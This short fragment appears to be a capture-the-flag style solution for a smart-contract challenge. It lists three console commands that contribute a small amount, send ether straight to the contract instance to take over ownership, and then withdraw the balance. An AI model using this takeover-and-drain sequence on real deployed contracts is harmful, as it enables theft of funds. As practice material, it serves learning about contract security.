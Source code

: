 1) await contract.contribute({value: '100000000000000'})

2) sendTransaction({value: '100000', from: player, to: instance})

3) await contract.withdraw()
